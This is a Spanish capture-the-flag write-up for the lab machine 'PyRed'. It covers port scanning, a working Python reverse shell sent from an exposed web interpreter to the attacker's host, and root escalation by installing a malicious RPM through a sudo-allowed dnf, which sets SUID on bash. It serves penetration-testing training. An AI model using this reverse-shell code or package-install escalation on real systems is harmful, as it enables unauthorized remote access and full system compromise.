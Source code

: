 # PyRed 
![pyred](https://github.com/TBrux/DOCKERLABS/assets/168732212/581d6970-5f9f-4693-915d-8e2cd06b14cb)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT     STATE SERVICE REASON
5000/tcp open  upnp    syn-ack ttl 64
```

Como tenemos abierto el puerto 5000, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p5000 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p5000`: Escaneo de los puertos 5000.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```
PORT     STATE SERVICE REASON         VERSION
5000/tcp open  upnp?   syn-ack ttl 64
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.2 Python/3.12.2
```
Vamos a ver que encontramos en el puerto 5000 y vemos que es una página con lo que parece un intérprete de **Python**.
![python](https://github.com/TBrux/DOCKERLABS/assets/168732212/62e5c69b-3c12-446f-b82e-420d76ab694a)

## Explotación.

Lo siguiente es ponernos a la escucha en un puerto en nuestro equipo y enviarnos una reverse shell desde el interprete de **Pyhton**.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
```
```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.17.0.1", 4443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```
Una vez lo lanzamos ya establemos la reverse shell con el usuario **primpi**.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 33108
sh: cannot set terminal process group (1): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.2$ whoami
whoami
primpi
sh-5.2$ 
````
## Escalada de privilegios.
Comprobamos binarios y archivos que podemos lanzar como root u otro usuario con más privilegios.
```bash
sudo -l
```
```
sh-5.2$ sudo -l
sudo -l
Matching Defaults entries for primpi on c35c7f5e90f9:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User primpi may run the following commands on c35c7f5e90f9:
    (ALL) NOPASSWD: /usr/bin/dnf
```
Vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/) y vemos que podemos ver los pasos para crear un archivo malicioso que después subiremo a la máquina lo ejecutaremos con **/usr/bin/dnf**.
```bash
❯ TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0-1.noarch.rpm"}
```
Hemos creardo el archivo **x-1.0-1.noarch.rpm** que ahora lo subiremos a la máquina victima creando un servidor **http** con python en el directorio donde tenemos nuestro archivo y con **curl** lo descargamos en la máquina victima en la carpeta


```bash
python3 -m http.server 8080
```
```bash
curl 172.17.0.1/x-1.0-1.noarch.rpm -o noarch.rpm
```
Una vez ya lo tenemos en la máquina víctima, lo instalamos con el binario **/usr/bin/dnf** y así cambiamos el SUID de bash y podemos ejecutarla comor **root**.
```bash
sudo -u root /usr/bin/dnf install -y noarch.rpm
```
```bash
bash -p
```
```
sh-5.2$ bash -p
whoami
root
```

